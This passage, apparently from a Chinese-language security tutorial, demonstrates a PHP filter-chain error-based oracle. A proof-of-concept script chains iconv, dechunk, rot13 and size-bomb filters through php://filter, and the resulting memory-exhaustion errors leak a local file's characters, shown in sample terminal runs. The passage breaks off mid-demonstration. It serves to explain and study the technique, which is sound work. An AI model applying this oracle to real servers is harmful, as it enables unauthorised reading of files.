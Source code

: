 ```plain
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is e
IBM-930 conversions : 2, the first character is d
IBM-930 conversions : 3, the first character is c
IBM-930 conversions : 4, the first character is b
IBM-930 conversions : 5, the first character is a
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 115036160 bytes) in /tmp/oracle.php on line 16

$ echo 'cSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is e
IBM-930 conversions : 2, the first character is d
IBM-930 conversions : 3, the first character is c
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 68288512 bytes) in /tmp/oracle.php on line 16

$ echo 'GSTART' > /tmp/test
$ php oracle.php 
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 75497472 bytes) in /tmp/oracle.php on line 16
```

可以发现，通过利用 oracle，可以精确地确定链的第一个字符是 `a` 、 `b` 、 `c` 、 `d` 还是 `e` 。

通过使用更多的 filter 可以让`$guess_char`产生更多的可能性，比如可以通过添加 `string.rot13` 过滤器以相同的方式泄漏：字符 `n` 、 `o` 、 `p` 、 `q` 和 `r`。

```plain
<?php

$string = "START";
$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars|";
    $rot13filter = "string.rot13|";
    $filter = "php://filter/$rot13filter$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."rqpon"[$i-1]."\n";
}
```

```plain
$ echo 'nSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is r
IBM-930 conversions : 2, the first character is q
IBM-930 conversions : 3, the first character is p
IBM-930 conversions : 4, the first character is o
IBM-930 conversions : 5, the first character is n
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 115036160 bytes) in /tmp/oracle.php on line 17

$ echo 'rSTART' > /tmp/test
$ php oracle.php 
```